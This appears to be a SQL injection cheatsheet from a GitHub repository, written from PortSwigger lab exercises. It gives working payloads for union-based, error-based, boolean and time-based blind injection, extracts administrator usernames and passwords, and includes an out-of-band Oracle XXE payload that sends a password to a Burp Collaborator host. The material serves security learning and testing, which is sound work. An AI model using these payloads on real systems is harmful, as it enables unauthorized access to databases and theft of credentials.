


# SQL Injection Cheatsheets
- Labs from portswigger labs

| Type | Sub-Type | Definition |
|:-|:-|:-|
|In-Band SQL Injection | Error-Based | Extracts data via **database error messages**.|
| | Union-Based |Uses the `UNION` operator to retrieve **additional data**. |
|Blind SQL Injection | Boolean-Based | Sends queries that return **True/False** responses. |
| | Time-Based | Uses **delays** (`SLEEP()`, `WAITFOR DELAY`) to infer database responses.|
|Out-of-Band SQL Injection | DNS Exfiltration | Sends **DNS requests** to an attacker-controlled server. |
| | HTTP Exfiltration | Sends **HTTP requests** with extracted data. |
| Second-Order SQL Injection |N/A | The payload is stored and **executed later**, affecting another SQL query. |
| NoSQL Injection | N/A | Attacks **NoSQL databases (MongoDB, CouchDB)** using JSON or JavaScript-based injections.

- Procees
    - **In-Band SQL Injection** is **easier to detect** since attackers get **direct feedback**.
    - **Out-of-Band SQL Injection** is **harder to detect** but works when **direct responses are blocked**.
    - **Blind SQL Injection** is **time-consuming** but still effective if error messages are suppressed.
    - **Use WAFs, Parameterized Queries, and Security Testing** to prevent SQL injection!

## SQL Database
> Here are commands to find MySQL, Microsoft SQL server [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


- Identifying number of columns available in SQL database to craft the union select command 
```bash
# Pets is the parameter in the URL 
Pets' order by 1#  # Increase the number starting from 1 to so on, when ever you get the 500 error then n-1 columns are their
Pets' order by 3#    # Error 500 internal server error decided with go for 2 columns in this case
Pets' order by 2#     # No error 200 OK
Pets'union select null, null#
```
- Identifying Version of SQL database
```bash
Pets'union select @@version, null#      # Microsoft SQL, MySQL
Pets'union select version(), null#      # PostgreSQL
```
- List of Tables from the Oracle database
```bash
Pets'union select table_name, null from information_schema.tables--      # or you can use # instead of --
```
- Extract Data in tables
```bash
Pets'union select column_name, null from information_schema.columns where table_name = 'users_xacgsm'--    # List of columns
Pets'union select username_pxqwui, password_bfvoxs from users_xacgsm--
Pets'union select username_pxqwui ||'~'|| password_bfvoxs, null from users_xacgsm--  # Printing username and password one cloumn with '~' sign in between
```

## ORACLE Database
> Here are commands to find ORACLE DB [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


- Identifying number of columns available in Oracle database to craft the union select command 
```bash
# Pets is the parameter in the URL 
Pets' order by 1--    # Increase the number starting from 1 to so on, when ever you get the 500 error then n-1 columns are their
Pets' order by 3--    # Error 500 internal server error decided with go for 2 columns in this case
# Asume here 2 columns, when I use the number 3 error of 500 internal server error
Pets' order by 2--     # No error 200 OK
Pets'union select null, null from DUAL--     # DUALinternal table in ORACLE
Pets'union select 'a', 'a' from DUAL--
```
- Identifying Version of Oracle database
```bash
Pets'union select null, banner from v$version--
```
- List of Tables from the Oracle database
```bash
' union select table_name from all_tables--  # It will provide the table names check for user keywords
```
- Extract Data in tables
```bash
Pets'union select column_name null from+all_tab_columns where table_name = 'USERS_BPAWFN'--    # List of columns
Pets'union select USERNAME_RABKTC,PASSWORD_YOEYVJ from+USERS_BPAWFN--
```

## SQL injection UNION attacks

> when an application is vulnerable to SQL injection, and the results of the query are returned within the application's response, you can use the ```UNION``` keyword to retrive data from other tables within the database. This is commonly know as a SQL injection UNION attack.

- The ```UNION``` keyword enables you to execute one or more additional ```SELECT``` queries and append the results to the original query. For example:
```bash
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
- This SQL query returns a single result set with two columns, containing values from columns ```a``` and ```b``` in ```table1``` and columns ```c``` and ```d``` in ```table2```.
- For a ```UNION``` query to work, two key requirements must be met:
    - The individual queries must return the same number of columns.
    - The data types in each column must be compatible between the individual queries.
- To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:
    - How many columns are being returned from the original query.
    - Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

##### Determining the number of columns required
- When trying the SQL ```UNION``` injection their are 2 ways
- One method
    - ' ORDER BY 1--
- The second method
    - ' UNION SELECT NULL--
- You need to increase the number in order and null value in ```UNION SELECT``` command, until you get an error in the output page.
```bash
# One method
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
# The second method
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
- When using the ```ORDER BY``` technique, the application may return a database error, a generic error, or no results. If the number of nulls matches the columns, the database adds a row with null values. This may result in extra content in the response, such as an additional row in an HTML table. Alternatively, it could trigger errors like ```NullPointerException```, or the response may appear unchanged, rendering this method ineffective.

##### Database-specific syntax ORACLE DB
- On Oracle, every ```SELECT``` query must use the ```FROM``` keyword and specify a valid table. There is a build-in table on Oracle called ```dual``` which can used for this purpose. So the injected queries on Oracle would need to look like:
```bash
' UNION SELECT null FROM DUAL--
```

##### Finding columns with a useful data type
- First, determine the number of columns then
- Second, Then find which columns hold the ```string``` by changing the values
```bash
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

##### Using a SQL injection UNION attack to retrieve interesting data
- when you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.
- Suppose that:
    - The original query returns two columns, both of which can hold string data.
    - The injection point is a quoted string within the WHERE clause.
    - The database contains a table called users with the columns username and password.
- In this example, you can retrieve the contents of the ```users``` table by submitting the input:
```bash
' UNION SELECT username, password FROM users--
```
##### Retrieving multiple values within a single column
- You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
```bash
' UNION SELECT username || '~' || password FROM users--
# Results may like: administrator~s3cure
```

## Blind SQL injection
- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors
- Many techniques such as ```UNION``` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

##### Exploiting blind SQL injection by triggering conditional responses
- Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```bash
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- When a request containing a ```TrackingId``` cookie is processed, the application uses a SQL query to determine whether this is a known user:
```bash
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized ```TrackingId```, the query returns data and you receive a "Welcome back" message in the response.
- This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.
- To understand how this exploit works, suppose that two requests are sent containing the following  cookie ```TrackingId```  values in turn:
```bash
…xyz' AND '1'='1
…xyz' AND '1'='2
```
- Two conditions
    - The first of these values causes the query to return results, because the injected AND ```'1'='1``` condition is true. As a result, the "Welcome back" message is displayed.
    - The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- This allows us to determine the answer to any single injected condition, and extract data one piece at a time.
-  For example, suppose there is a table called ```Users``` with the columns ```Username``` and ```Password```, and a user called ```Administrator```. You can determine the password for this user by sending a series of inputs to test the password one character at a time.
```bash
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
- This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.
- Next, we send the following input:
```bash
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
- So on change the values based on the ```m, t and s``` soon.
- Script to retrive the password [video](https://www.youtube.com/watch?v=5brORHQSJMc) , [script](https://raw.githubusercontent.com/ashok5141/Application-Security-Cheatsheet/refs/heads/main/Scripts/SQL_Blind_Password_Retrive.py)
```bash
# Burp Suite(Repeater) Lab this case TrackingID vulnerable
#  True - welcome back
# False - No welcome back not existed your requesting for.
scliTLUSpsZWWON5                  # Response 200 OK
scliTLUSpsZWWON5' AND '1'='1      # Response 200 OK
scliTLUSpsZWWON5'+AND+1%3d1--     # Encode the payload(' AND 1=1--), Response 200 OK, This case ' or  1=2--  # Saying 200 OK because tracking id is correct.
scliTLUSpsZWWON5' and (select 'x' from users LIMIT 1)='x'--'    # Response 200 OK,  It returns welcome back message users table exits
scliTLUSpsZWWON5' and (select username from users where username='administrator'  LIMIT 1)='administrator'--'    # 200 OK, Administrator is available in the table
scliTLUSpsZWWON5' and (select password from users where username='administrator'  LIMIT 1)='Welcome2021!'--'     # IT's really trying brute forcing
scliTLUSpsZWWON5' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--';    # Password more then 1 character
scliTLUSpsZWWON5' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--'   #  Brute force this 1 to 50 it will return the 20, 19 we are getting welcome back message
scliTLUSpsZWWON5' and (select substring(password,1,1) from users where username='administrator')='a'--'   # trying password string with 'a'
# Either use Burp Professional or Python above script
```

### Error-based SQL Injection
- Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.
- The possibilities depend on the configuration of the database and the types of errors you're able to trigger:
    -  You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as a conditional response we looked at in the previous section.
    -  You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise bliend SQL injection vulnerabilities into visible ones.  

##### Exploiting blind SQL injection by triggering conditional errors
- Some parameters in applications including username, password, id, trackingID and sessionID might be vulnerable to SQL quires but the behaviour doesn't change, regardless of whether the query returns any data.
- Injecting boolean conditions makes no difference to the application's response.
```bash
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
- These inputs use the ```CASE``` keyword to test a condition and return a different expression depending on whether the expression is true:
    - With the first, the ```CASE```  expression evaluates to 'a', which does not cause any error.
    - With the secound input, it evaluates to ```1/0```, which causes a divide-by-zero error.
- Conditions is

```bash
' || (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
if admin exists -> condition 1=1 evaluted -> 1/0 evaluted -> Error
if random doesn't exists -> condition 1=1 never evaluted -> 1/0  never evaluted -> NO Error
```
- Conditions is
        - Determine the data FROM dual table
        - Validate the condition CASE WHEN(1=0). Since 1=0 is always false,
        - TO_CHAR(1/0) never evaluated therefore no error
```bash
Vulnerable parameter - tracking cookie

End Goals:
- Output the administrator password
- Login as the administrator user

Analysis:

1) Prove that parameter is vulnerable
' || (SELECT '') || ' -> MS SQL query

' || (select '' from dual) || ' -> oracle database 200

' || (select '' from dualfiewjfow) || ' -> error 500

2) Confirm that the users table exists in the database
' || (select '' from users) || '  -> 500
-> user table exists but the column name empty entries, which might break the concatination.

' || (select '' from users where rownum =1) || '  -> 200
-> users table exists and it return one row entry it must avaliable in the table got 200 response.

3.1) As you get HTTP 200 code in both true case and false case, we have to find another way of injecting a SQL query which causes a different behavior in the false case.
'|| (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
According to the SQL query order of execution, above query will execute as follows:
- Determine the data `FROM dual table`
- Validate the condition `CASE WHEN(1=1)` Since 1=1 is always true,
- `TO_CHAR(1/0)` evaluated causing Error 500

3) Confirm that the administrator user exists in the users table  -> 200
' || (select '' from users where username='administrator') || ' -> 200
' || (select '' from users where username='Unknown') || ' -> 200, 
We can't decide whether particular user available or not

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
-> Internal server error -> administrator user exists

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || ' 
-> 200 response -> user does not exist in database

4) Determine length of password

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
-> 200 response at 50 -> length of password is less than 50
-> 20 characters

5) Output the administrator password

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,,1)='a') || ' 
-> w is not the first character of the password

Some thing like this password  wjuc497wl6szhbtf0cbf
script here - https://github.com/ashok5141/Application-Security-Cheatsheet/blob/main/Scripts/SQL_Oracle_Blind_Password_Retrive.py 
script.py <url>
```

##### Extracting sensitive data via verbose SQL error messages
- Misconfiguration of the database sometimes results in verbose error messages.
- These can provide information that may be useful to an attacker.
- For example, consider the following error message, which occurs after injecting a single quote into an ```id``` parameter:
```bash
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```
- Lab scnario
- In the backend first make the error with ```'``` then remove the error with ```''``` or ```'--```
- After that convert the output into integer using as int, then equal to 1
- Due to the backend limitations characters error is ```Unterminated string``` 
- Check the users table with username it revealed that their is username as administrator
- Then check the password with the command
```bash
# Here the tracking ID parameter is vulnerable
Cookie: TrackingId=2PgixIJkC6L2lufE'; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4K   # Error
Cookie: TrackingId=2PgixIJkC6L2lufE''; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4K  # 200 OK
Cookie: TrackingId=2PgixIJkC6L2lufE'--; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4 # 200 OK
Cookie: TrackingId=2PgixIJkC6L2lufE'AND CAST((SELECT 1) AS int)--; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4K  # Error boolean to interger 

# Error with Unterminated string, might be the backend they limiting the charaters

Cookie: TrackingId='AND 1=CAST((SELECT 1) AS int)--; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4K  # Error boolean to interger 
Cookie: TrackingId='+AND+1%3dCAST((SELECT+username+from+users+LIMIT+1)+as+int)--; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4KjW  # administrator is revealed
Cookie: TrackingId='+AND+1%3dCAST((SELECT+password+from+users+LIMIT+1)+as+int)--; session=nCJ4wY37vsVs9bL03Wg3d11A2Emk4KjW # administrator's password is revealed
```

##### Exploiting blind SQL injection by triggering time delays
- In Blind SQL injection is often possiable to exploit the blind injection vulnerablity by triggering time delays depamding on whether an injected condition is true or false.
    - The first condition is false ```1=2``` so it don't trigger time delays.
    - The Second condition is true ```1=1``` so it will trigger time delays.
```bash
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- Using this technique, we can retrive data by testing one charater at a time:
```bash
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1,1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
- Lab Commands:
```bash
# First check all the time delays with different DB types

' || pg_sleep(10)--  # Confirms that parameter is vulnerable or not 
' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)-- # True sleep for 10 seconds
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)-- # False Don't sleep for 10 seconds
' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--  # Users table with adminstrator user is available
' || (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users)--   # Enumerate password length
' || (select case when (username='administrator' and LENGTH(password)>25) then pg_sleep(10) else pg_sleep(-1) end from users)-- # bigger then 1 and smaller then 25
# Brute force with intruder with 1 to 25, Set then resources pool one per max concurrent requests
# All trure cases sleep for 10 seconds so password length is 20 don't sleep for 10 besonds because password>20, not greater then
' || (select case when (username='administrator' and substring(password,1,1)='$a$') then pg_sleep(10) else pg_sleep(-1) end from users)-- # It will check the first character password in between $ signs
' || (select case when (username='administrator' and substring(password,$1$,1)='$a$') then pg_sleep(5) else pg_sleep(-1) end from users)-- # It will check the 20 character entire password in between $ signs, Reduced sleep to 5 
```
- Password finds below formart, here example password this case ```xtoy3o7zaqn9bvzqyolc```
    - Payload 1 show password character length number (Observe 19 charater is 'l' character)
    - Payload 2 show actual password of password character length number from payload



##### Exploiting blind SQL injection using out of band (OAST) techniques
> OAST -> Out of band Application Security Testing 
- Blind SQL injection is a type of SQL injection where an attacker exploits a vulnerability but does **not receive direct feedback** from the database in the form of error messages or visible data. Instead, they infer the database's response through **delays, conditional response or external interactions**.
- Out-of-Band (OOB)SQL Injection a special type of blind SQL Injection that relies on **external communication** (such as DNS or HTTP requests) to **extract data** from the database when in-band methods (like using messages or timing delays) are not available.

```bash
211l156wno9r15afmxc2h8zj6ac10rog.oastify.com
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://zlokty6nr3gjer9tg27cvnkh58bzzpne.oastify.com/"> %remote;]>'),'/l') FROM dual)-- # Encode this payload
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.211l156wno9r15afmxc2h8zj6ac10rog.oastify.com/"> %remote;]>'),'/l') FROM dual)-- # Encode the payload, restart the burp to correctly work the collabrator
```
- Steps This is the password ```bsvviwyd47i0sh97te3c```
    - First capture the request find the vulnerable parameter.
    - Start burp collabrator then, craft the payload the according the website and Database type
    - check the burp collabrator's **DNS** response like below image.
    
